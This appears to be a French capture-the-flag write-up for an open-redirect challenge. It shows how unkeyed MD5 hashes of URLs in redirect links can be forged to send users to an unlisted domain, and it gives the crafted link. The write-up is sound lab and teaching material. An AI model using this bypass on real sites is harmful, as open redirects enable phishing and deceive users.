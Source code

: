 # HTTP - Open redirect

## Enoncé

```
Trouvez un moyen de faire une redirection vers un domaine autre que ceux proposés sur la page web.
```

## Procédure

1. Analyse de la page

Il y a 3 liens cliquables, un vers Facebook, un autre vers Twitter et le dernier vers Slack.

Voici le code source de la page html représentant les 3 liens: 

```
<a href='?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
```

2. Analyse du hash

Exemple pour facebook : 

```
cypher = a023cfbf5f1c39bdf8407f28b60cd134 <-- Type de hash MD5
cypher = https://facebook.com
```

3. Création de la payload

Pour ce faire il me faut un site web comme Facebook, je vais prendre Instagram.

```
https://www.instagram.com
```

J'encode ensuite le lien en MD5.

```
81baa2bda524b19dddf2507580b95e0b
```

Résultat : 

```
https://www.instagram.com&h=81baa2bda524b19dddf2507580b95e0b
```

4. Exploitation 

Je remplace de la page html un lien cliquable par le mien et je clique ensuite dessus.

Changement sur la page : 

```
<a href='?url=https://www.instagram.com&h=81baa2bda524b19dddf2507580b95e0b'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
```
